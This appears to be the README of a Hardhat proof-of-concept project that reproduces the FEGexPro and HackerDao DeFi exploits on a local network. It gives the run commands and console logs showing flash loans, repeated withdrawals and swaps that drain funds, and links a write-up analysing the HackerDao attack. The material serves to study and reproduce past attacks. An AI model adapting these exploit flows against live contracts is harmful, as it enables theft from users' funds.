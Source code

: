 # Basic Sample Hardhat Project

This project demonstrates a basic Hardhat use case. It comes with a sample contract, a test for that contract, a sample script that deploys that contract, and an example of a task implementation, which simply lists the available accounts.

Try running some of the following tasks:

```shell
npx hardhat accounts
npx hardhat compile
npx hardhat clean
npx hardhat test
npx hardhat node
node scripts/sample-script.js
npx hardhat help
```

## Run

### Simulate an attack running fegexpro

> Run

```
npx hardhat run --network hardhat scripts/fegexpro-attack.js 
```

> Result

```
➜  DefiAttackPocBox git:(main) ✗ npx hardhat run --network hardhat scripts/fegexpro-attack.js 
exploit deployed to: 0x243CD2aBE3896f8Fd11AA375CEe04EA685c8fCB8
start flashLoan: wbnb amount 0 bnb amount 0
Now I have WBNB num # 915842289447124857298
path call 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
FEGexPro_address FEG_PRO_FBNB_amount:1051370338227328031779
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
createAttacker:
debug # 1 amt of FBNB 115650737205006083495
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 114598114043831447113 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
withdraw 20204367594460596827 FBNB to 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
path call 0x243cd2abe3896f8fd11aa375cee04ea685c8fcb8
finsh:BNB amount 1026477953416890657908
```

### Simulate HackerDao's Attack

> Process Analysis

- [https://jusonalien.github.io/hackerdaogong-ji-fen-xi-fu-xian.html](https://jusonalien.github.io/hackerdaogong-ji-fen-xi-fu-xian.html)

> Run
```
npx hardhat run --network hardhat scripts/hackerdao-script.js
```
> Result

```
➜  DefiAttackPocBox git:(main) npx hardhat run --network hardhat scripts/hackerdao-script.js
exploit deployed to: 0x5B06224F736a57635B5BCb50B8EF178B189107cB
owner address 0xf39fd6e51aad88f6f4ce6ab8827279cfffb92266 contract address 0x5b06224f736a57635b5bcb50b8ef178b189107cb
Now I have flash loaned WBNB num # 2500000000000000000000
after swap Now my WBNB num # 505082833655151138304
now I have 7029656601027818642253 HackerDao
Before swapExactTokensForTokensSupportingFeeOnTransferTokens my wbnb amt: 505082833655151138304
After swapExactTokensForTokensSupportingFeeOnTransferTokens my wbnb amt: 2675137850557090857986
now I have 7582486742903822384 HackerDao
path call 0x5b06224f736a57635b5bcb50b8ef178b189107cb
Finally I have 175208335819332962719 BNB
```
